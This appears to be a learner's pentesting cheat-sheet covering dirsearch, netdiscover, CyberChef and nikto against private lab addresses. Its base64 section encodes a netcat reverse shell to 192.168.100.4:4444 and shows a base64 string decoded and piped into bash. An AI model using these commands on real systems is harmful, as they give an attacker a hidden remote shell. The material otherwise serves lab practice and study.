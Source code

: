 ***python3 dirsearch.py*** -u http://192.168.0.33 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 150 -e php,txt,html -f
**LOOK THAT IS DIFFERENT , IT IS NOT ONLY DIRSEARCH LIKE THE PICTURE**

**WHEN I DOWNLOADED IT FROM KALI LINUX WAS DEPRECATED , SO YOU MUST USE PTHTON 3 BEFORE ALL THE COMAND !!!**
dirsearch
-u Specify url
-w Select the word list that you are going to use
-t the quantity  of "threads" (wtf is thread in IT ?)
-e extensions it can be php,txt,html,js,etc 
-f "force"   forzar el uso de extensiones
 
# Net discover

#netdiscover

It is a tool used for discover wlan o lan you must use with the next comand
```
sudo netdiscover -i eth0 (or wlan0 or your lan) -r (specify a range 192.168.100.0/24 for example)
```
its useful put sudo netdiscover -h and look more options

# cyberchef
#cyberchef 

https://gchq.github.io/CyberChef/ (we dont need to dowload nothing)

https://www.youtube.com/watch?v=TMt7BlgpL3A


# base64 #
#base64 

cds@cds:~$ echo nc -e /bin/bash 192.168.100.4 4444 | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjQgNDQ0NAo=

WE CAN ENCODE THINGS WITH BASE64 or decimal hexadecimal etc with this command

this is when you need decode something .. 

echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjM3IDQ0NDQK' | base64 -d | bash


# Nikto

#nikto

nikto -h (DNS or IP) and it returns something like this

```+ Multiple index files found: /index.php, /index.html.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /admin/: This might be interesting.
+ /secret/: This might be interesting.
+ /store/: This might be interesting.
+ /admin/index.php: This might be interesting: has been seen in web logs from an unknown scanner.
+ 8103 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2023-07-26 20:41:04 (GMT2) (30 seconds)
---------------------------------------------------------------------------
```
